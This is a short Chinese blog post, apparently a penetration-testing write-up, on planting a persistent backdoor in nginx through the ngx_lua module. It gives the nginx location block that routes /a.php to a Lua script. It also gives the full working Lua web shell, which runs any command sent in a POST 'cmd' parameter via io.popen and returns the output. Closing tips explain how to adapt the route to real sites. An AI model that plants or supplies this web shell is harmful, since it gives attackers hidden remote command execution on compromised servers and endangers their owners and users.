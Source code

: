 ```yaml
---
title: "Nginx Lua Backdoor"
date: 2019-09-01T17:35:59+08:00
draft: false
tags: ['backdoor']
categories: ['渗透测试']
---
```

在先知看到了apache利用lua留后门，就想着用nginx也试试
<!--more-->

## 要求

安装有ngx_lua模块，在openresty和tengine中是默认安装了ngx_lua模块的。

我这里拿openresty举例，你可以在这里[下载win平台](https://openresty.org/download/openresty-1.15.8.1-win64.zip)打包好的。

## 步骤

找到conf/nginx.conf，在server块中添加路由

```nginx
location = /a.php {  
    default_type 'text/plain';  
    content_by_lua_file lua/backdoor.lua;
}
```

然后创建`lua/backdoor.lua`脚本，你也可以创建在任意位置，不过要对应上文的`content_by_lua_file`字段

```lua
ngx.req.read_body()
local post_args = ngx.req.get_post_args()
local cmd = post_args["cmd"]
if cmd then
    f_ret = io.popen(cmd)
    local ret = f_ret:read("*a")
    ngx.say(string.format("%s", ret))
end
```

重载nginx

```bash
nginx -s reload
```

浏览器访问

![20190901174819](https://y4er.com/img/uploads/20190901174819.png)

## 文后

在实际的环境中，conf文件并不固定，你需要针对不同站点的配置文件去修改。

而location你可以更灵活一些，毕竟他能用正则表达式🙄，具体怎么用看你自己咯。

参考链接

1. https://github.com/netxfly/nginx_lua_security
2. https://xz.aliyun.com/t/6088

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**